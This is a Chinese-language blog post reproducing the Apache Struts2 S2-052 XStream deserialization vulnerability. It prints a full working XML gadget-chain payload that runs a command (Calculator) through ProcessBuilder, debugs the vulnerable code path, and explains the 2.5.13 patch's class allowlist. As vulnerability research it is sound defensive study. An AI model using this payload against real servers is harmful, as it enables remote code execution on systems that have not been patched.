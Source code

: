```yaml
---
layout: post
title: "s2-052复现"
date: 2017-09-08 
---
```



<p>9月5号，在北京出差的时候，就听到群里大师傅们在讨论s2-052，当时根据官方链接，作者说的很清楚，在XStreamHandler函数toObject中,在进行xml转object的时候，没有任何的防御措施，导致可以直接反序列化。由于酒店的网太烂了，maven依赖一直下载不下来，回到公司后一切顺利地可以进行。本来当网就想调试分析一下的，但是关于XStream的用法，可以参考<a href="http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&amp;utm_medium=referral">http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&amp;utm_medium=referral</a>,可以这么理解，XStream这个东西就是为了将xml和java对象之间转换的工具。至于为什么要将java对象转换成xml，答案是为了方便存储，和writeObject类似的效果，只不过writeObject将对象保存为一个反序列化格式的文件, XStream将对象保存为xml格式。<br>
找到<a href="https://github.com/mbechler/marshalsec">https://github.com/mbechler/marshalsec</a>，将其下载下来，根据is_win师傅给的生成payload当时，我们传入两个参数，分别为ImageIO, /Applications/Calculator.app/Contents/MacOS/Calculator。
<a href="https://camo.githubusercontent.com/3962c4e0a3a8d00af5a41e60588276c173f46346/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d382f31313935393934392e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/3962c4e0a3a8d00af5a41e60588276c173f46346/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d382f31313935393934392e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-8/11959949.jpg" style="max-width:100%;"></a>
对marshalsec项目下断点分析，可以看到最后形成的poc 如下:</p>
<pre><code>&lt;map&gt;
  &lt;entry&gt;
    &lt;jdk.nashorn.internal.objects.NativeString&gt;
      &lt;flags&gt;0&lt;/flags&gt;
      &lt;value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"&gt;
        &lt;dataHandler&gt;
          &lt;dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"&gt;
            &lt;is class="javax.crypto.CipherInputStream"&gt;
              &lt;cipher class="javax.crypto.NullCipher"&gt;
                &lt;initialized&gt;false&lt;/initialized&gt;
                &lt;opmode&gt;0&lt;/opmode&gt;
                &lt;serviceIterator class="javax.imageio.spi.FilterIterator"&gt;
                  &lt;iter class="javax.imageio.spi.FilterIterator"&gt;
                    &lt;iter class="java.util.Collections$EmptyIterator"/&gt;
                    &lt;next class="java.lang.ProcessBuilder"&gt;
                      &lt;command&gt;
                        &lt;string&gt;/Applications/Calculator.app/Contents/MacOS/Calculator&lt;/string&gt;
                      &lt;/command&gt;
                      &lt;redirectErrorStream&gt;false&lt;/redirectErrorStream&gt;
                    &lt;/next&gt;
                  &lt;/iter&gt;
                  &lt;filter class="javax.imageio.ImageIO$ContainsFilter"&gt;
                    &lt;method&gt;
                      &lt;class&gt;java.lang.ProcessBuilder&lt;/class&gt;
                      &lt;name&gt;start&lt;/name&gt;
                      &lt;parameter-types/&gt;
                    &lt;/method&gt;
                    &lt;name&gt;foo&lt;/name&gt;
                  &lt;/filter&gt;
                  &lt;next class="string"&gt;foo&lt;/next&gt;
                &lt;/serviceIterator&gt;
                &lt;lock/&gt;
              &lt;/cipher&gt;
              &lt;input class="java.lang.ProcessBuilder$NullInputStream"/&gt;
              &lt;ibuffer&gt;&lt;/ibuffer&gt;
              &lt;done&gt;false&lt;/done&gt;
              &lt;ostart&gt;0&lt;/ostart&gt;
              &lt;ofinish&gt;0&lt;/ofinish&gt;
              &lt;closed&gt;false&lt;/closed&gt;
            &lt;/is&gt;
            &lt;consumed&gt;false&lt;/consumed&gt;
          &lt;/dataSource&gt;
          &lt;transferFlavors/&gt;
        &lt;/dataHandler&gt;
        &lt;dataLen&gt;0&lt;/dataLen&gt;
      &lt;/value&gt;
    &lt;/jdk.nashorn.internal.objects.NativeString&gt;
    &lt;jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/&gt;
  &lt;/entry&gt;
  &lt;entry&gt;
    &lt;jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/&gt;
    &lt;jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/&gt;
  &lt;/entry&gt;
&lt;/map&gt;
</code></pre>
<p>很熟悉的格式，我们可以反推，当调用xstream.fromXML进行解析xml的时候，该对象会有字段ProcessBuilder，最后反序列化的时候大概会是这个效果。</p>
<pre><code>new ProcessBuilder("Applications/Calculator.app/Contents/MacOS/Calculator").start()
</code></pre>
<p>跟进ProcessBuilder类，发现了commond字段
<a href="https://camo.githubusercontent.com/fd5cf7079c83bdd7276cf24a0d7abf0dbcc571fe/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d382f36303938333738382e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/fd5cf7079c83bdd7276cf24a0d7abf0dbcc571fe/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d382f36303938333738382e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-8/60983788.jpg" style="max-width:100%;"></a>
那么其和xml的中的节点</p>
<pre><code>&lt;command&gt;
                        &lt;string&gt;/Applications/Calculator.app/Contents/MacOS/Calculator&lt;/string&gt;
                      &lt;/command&gt;
</code></pre>
<p>可以匹配起来了，至此可以弹出计算器。<br>
跟踪原作者的提示，我在toObject处下断点。整个堆栈调试情况如下:<br>
<a href="https://camo.githubusercontent.com/011d71b4b4378760445b46d6bb3e903fa614a2f4/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f32313032303936372e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/011d71b4b4378760445b46d6bb3e903fa614a2f4/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f32313032303936372e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-11/21020967.jpg" style="max-width:100%;"></a>
可以清晰的看到，在ContentTypeInterceptor类中，首先判断了请求body的长度，并且将其交由XStreamHandler做toObject处理。
继续跟进到xstream.fromXML 这个函数，以便于我们深刻理解xstream到底是怎么将一个xml解析的。跟进XStream类中的fromXML，发现其调用了unmarshal函数，经过层层跟进我们最终来到了MapConverter类中的unmarshal函数，
<a href="https://camo.githubusercontent.com/f76bc4beb357fe177639667f4cc05eed6f060272/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f34393837363738322e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/f76bc4beb357fe177639667f4cc05eed6f060272/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f34393837363738322e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-11/49876782.jpg" style="max-width:100%;"></a>
Xstream将xml数据解析并放到一个map里面。
<a href="https://camo.githubusercontent.com/294606e4da2bc302705da8a9874c42519daa0015/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f38323534363931362e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/294606e4da2bc302705da8a9874c42519daa0015/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f38323534363931362e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-11/82546916.jpg" style="max-width:100%;"></a>
某处关键代码如下</p>
<pre><code>protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
        reader.moveDown();
        Object key = this.readItem(reader, context, map);
        reader.moveUp();
        reader.moveDown();
        Object value = this.readItem(reader, context, map);
        reader.moveUp();
        target.put(key, value);
    }
</code></pre>
<p>经过测试，在readItem的时候弹出了计算器，跟进这个函数。其中代码入下</p>
<pre><code> protected Object readItem(HierarchicalStreamReader reader, UnmarshallingContext context, Object current) {
        Class type = HierarchicalStreams.readClassType(reader, this.mapper());
        return context.convertAnother(current, type);
    }
</code></pre>
<p>其中HierarchicalStreams.readClassType(reader, this.mapper())为根据字符jdk.nashorn.internal.objects.NativeString获取到其具体的对象。
经过持续的跟进，发现callReadResolve函数入下<br>
<a href="https://camo.githubusercontent.com/c91e8f43b46446c12e6861e882d44f623ae6d3f8/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f39323236383239332e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/c91e8f43b46446c12e6861e882d44f623ae6d3f8/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f39323236383239332e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-11/92268293.jpg" style="max-width:100%;"></a>
java反射机制。整个操作流程细节比较复杂，总结起来如下:
xml先提取节点，解析到map
迭代器继续解析节点
反射机制执行恶意代码</p>
<h2><a href="#补丁分析" aria-hidden="true" class="anchor" id="user-content-补丁分析"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>补丁分析</h2>
<p>我调试struts2-rest-plugin插件的版本为2.5.12(影响版本参考<a href="https://struts.apache.org/docs/s2-052.html">https://struts.apache.org/docs/s2-052.html</a>)，我将依赖改成版本不受影响的2.5.13，这里把两个版本的源码diff一下。发现在createXStream的时候做了一些安全防护。其中新增了一个函数
<a href="https://camo.githubusercontent.com/f5e6293164dba4ec165deffa2412f6ee21deb0c5/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f32393339333236362e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/f5e6293164dba4ec165deffa2412f6ee21deb0c5/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f32393339333236362e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-11/29393266.jpg" style="max-width:100%;"></a>
<a href="http://x-stream.github.io/security.html">http://x-stream.github.io/security.html</a>。其中这段描述很清楚
XStream提供了一些TypePermission实现，允许任何类型或任何类型，以允许原始类型及其对应，空值，数组类型，实现通过常规或通配符表达式匹配类型的名称，一个用于反转权限。
<a href="https://camo.githubusercontent.com/ac1663c001f4d88c8a2045180a0e3b42e2d02c07/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f36303839323132322e6a7067" target="_blank"><img src="https://camo.githubusercontent.com/ac1663c001f4d88c8a2045180a0e3b42e2d02c07/687474703a2f2f6f6873716c6d37676a2e626b742e636c6f7564646e2e636f6d2f31372d392d31312f36303839323132322e6a7067" alt="" data-canonical-src="http://ohsqlm7gj.bkt.clouddn.com/17-9-11/60892122.jpg" style="max-width:100%;"></a>
添加了xml可以反序列化的类，当解析到jdk.nashorn.internal.objects.NativeString的时候，由于没通过permission.allows的时候，无法正常return,直接抛出一个异常，终止整个过程。</p>
<pre><code> public Class realClass(String elementName) {
        Class type = super.realClass(elementName);

        for(int i = 0; i &lt; this.permissions.size(); ++i) {
            TypePermission permission = (TypePermission)this.permissions.get(i);
            if(permission.allows(type)) {
                return type;
            }
        }

        throw new ForbiddenClassException(type);
    }
}
</code></pre>
<p>后面也就不会去解析之行了。至此，整个过程分析完毕。</p>
<h2><a href="#参考资料" aria-hidden="true" class="anchor" id="user-content-参考资料"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>参考资料</h2>
<p><a href="http://x-stream.github.io/security.html">http://x-stream.github.io/security.html</a></p>
<h2><a href="#拓展学习" aria-hidden="true" class="anchor" id="user-content-拓展学习"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a> 拓展学习</h2>
<p><a href="http://www.freebuf.com/vuls/147017.html">http://www.freebuf.com/vuls/147017.html</a></p>
</article>
  </div>

  </div>

  <button type="button" data-facebox="#jump-to-line" data-facebox-class="linejump" data-hotkey="l" class="d-none">Jump to Line</button>
  <div id="jump-to-line" style="display:none">
    <!-- '"` --><!-- </textarea></xmp> --></option></form><form accept-charset="UTF-8" action="" class="js-jump-to-line-form" method="get"><div style="margin:0;padding:0;display:inline"><input name="utf8" type="hidden" value="&#x2713;" /></div>
      <input class="form-control linejump-input js-jump-to-line-field" type="text" placeholder="Jump to line&hellip;" aria-label="Jump to line" autofocus>
      <button type="submit" class="btn">Go</button>
</form>  </div>

  </div>
  <div class="modal-backdrop js-touch-events"></div>
</div>

    </div>
  </div>

  </div>

      
<div class="footer container-lg px-3" role="contentinfo">
  <div class="position-relative d-flex flex-justify-between py-6 mt-6 f6 text-gray border-top border-gray-light ">
    <ul class="list-style-none d-flex flex-wrap ">
      <li class="mr-3">&copy; 2017 <span title="0.15139s from unicorn-3825559515-2424f">GitHub</span>, Inc.</li>
        <li class="mr-3"><a href="https://github.com/site/terms" data-ga-click="Footer, go to terms, text:terms">Terms</a></li>
        <li class="mr-3"><a href="https://github.com/site/privacy" data-ga-click="Footer, go to privacy, text:privacy">Privacy</a></li>
        <li class="mr-3"><a href="https://github.com/security" data-ga-click="Footer, go to security, text:security">Security</a></li>
        <li class="mr-3"><a href="https://status.github.com/" data-ga-click="Footer, go to status, text:status">Status</a></li>
        <li><a href="https://help.github.com" data-ga-click="Footer, go to help, text:help">Help</a></li>
    </ul>

    <a href="https://github.com" aria-label="Homepage" class="footer-octicon" title="GitHub">
      <svg aria-hidden="true" class="octicon octicon-mark-github" height="24" version="1.1" viewBox="0 0 16 16" width="24"><path fill-rule="evenodd" d="M8 0C3.58 0 0 3.58 0 8c0 3.54 2.29 6.53 5.47 7.59.4.07.55-.17.55-.38 0-.19-.01-.82-.01-1.49-2.01.37-2.53-.49-2.69-.94-.09-.23-.48-.94-.82-1.13-.28-.15-.68-.52-.01-.53.63-.01 1.08.58 1.23.82.72 1.21 1.87.87 2.33.66.07-.52.28-.87.51-1.07-1.78-.2-3.64-.89-3.64-3.95 0-.87.31-1.59.82-2.15-.08-.2-.36-1.02.08-2.12 0 0 .67-.21 2.2.82.64-.18 1.32-.27 2-.27.68 0 1.36.09 2 .27 1.53-1.04 2.2-.82 2.2-.82.44 1.1.16 1.92.08 2.12.51.56.82 1.27.82 2.15 0 3.07-1.87 3.75-3.65 3.95.29.25.54.73.54 1.48 0 1.07-.01 1.93-.01 2.2 0 .21.15.46.55.38A8.013 8.013 0 0 0 16 8c0-4.42-3.58-8-8-8z"/></svg>
</a>
    <ul class="list-style-none d-flex flex-wrap ">
        <li class="mr-3"><a href="https://github.com/contact" data-ga-click="Footer, go to contact, text:contact">Contact GitHub</a></li>
      <li class="mr-3"><a href="https://developer.github.com" data-ga-click="Footer, go to api, text:api">API</a></li>
      <li class="mr-3"><a href="https://training.github.com" data-ga-click="Footer, go to training, text:training">Training</a></li>
      <li class="mr-3"><a href="https://shop.github.com" data-ga-click="Footer, go to shop, text:shop">Shop</a></li>
        <li class="mr-3"><a href="https://github.com/blog" data-ga-click="Footer, go to blog, text:blog">Blog</a></li>
        <li><a href="https://github.com/about" data-ga-click="Footer, go to about, text:about">About</a></li>

    </ul>
  </div>
</div>



  <div id="ajax-error-message" class="ajax-error-message flash flash-error">
    <svg aria-hidden="true" class="octicon octicon-alert" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path fill-rule="evenodd" d="M8.865 1.52c-.18-.31-.51-.5-.87-.5s-.69.19-.87.5L.275 13.5c-.18.31-.18.69 0 1 .19.31.52.5.87.5h13.7c.36 0 .69-.19.86-.5.17-.31.18-.69.01-1L8.865 1.52zM8.995 13h-2v-2h2v2zm0-3h-2V6h2v4z"/></svg>
    <button type="button" class="flash-close js-ajax-error-dismiss" aria-label="Dismiss error">
      <svg aria-hidden="true" class="octicon octicon-x" height="16" version="1.1" viewBox="0 0 12 16" width="12"><path fill-rule="evenodd" d="M7.48 8l3.75 3.75-1.48 1.48L6 9.48l-3.75 3.75-1.48-1.48L4.52 8 .77 4.25l1.48-1.48L6 6.52l3.75-3.75 1.48 1.48z"/></svg>
    </button>
    You can't perform that action at this time.
  </div>


    
    <script crossorigin="anonymous" integrity="sha256-LH69UKgv8w0tiqRtzIs/o4mITJe6WaehuBnn+NHQxjE=" src="https://assets-cdn.github.com/assets/frameworks-2c7ebd50a82ff30d2d8aa46dcc8b3fa389884c97ba59a7a1b819e7f8d1d0c631.js"></script>
    
    <script async="async" crossorigin="anonymous" integrity="sha256-Vppjk4D3g9Vxb+DO66+IpfWZXyOArUZ+jlAhGup3kuM=" src="https://assets-cdn.github.com/assets/github-569a639380f783d5716fe0ceebaf88a5f5995f2380ad467e8e50211aea7792e3.js"></script>
    
    
    
    
  <div class="js-stale-session-flash stale-session-flash flash flash-warn flash-banner d-none">
    <svg aria-hidden="true" class="octicon octicon-alert" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path fill-rule="evenodd" d="M8.865 1.52c-.18-.31-.51-.5-.87-.5s-.69.19-.87.5L.275 13.5c-.18.31-.18.69 0 1 .19.31.52.5.87.5h13.7c.36 0 .69-.19.86-.5.17-.31.18-.69.01-1L8.865 1.52zM8.995 13h-2v-2h2v2zm0-3h-2V6h2v4z"/></svg>
    <span class="signed-in-tab-flash">You signed in with another tab or window. <a href="">Reload</a> to refresh your session.</span>
    <span class="signed-out-tab-flash">You signed out in another tab or window. <a href="">Reload</a> to refresh your session.</span>
  </div>
  <div class="facebox" id="facebox" style="display:none;">
  <div class="facebox-popup">
    <div class="facebox-content" role="dialog" aria-labelledby="facebox-header" aria-describedby="facebox-description">
    </div>
    <button type="button" class="facebox-close js-facebox-close" aria-label="Close modal">
      <svg aria-hidden="true" class="octicon octicon-x" height="16" version="1.1" viewBox="0 0 12 16" width="12"><path fill-rule="evenodd" d="M7.48 8l3.75 3.75-1.48 1.48L6 9.48l-3.75 3.75-1.48-1.48L4.52 8 .77 4.25l1.48-1.48L6 6.52l3.75-3.75 1.48 1.48z"/></svg>
    </button>
  </div>
</div>


  </body>
</html>

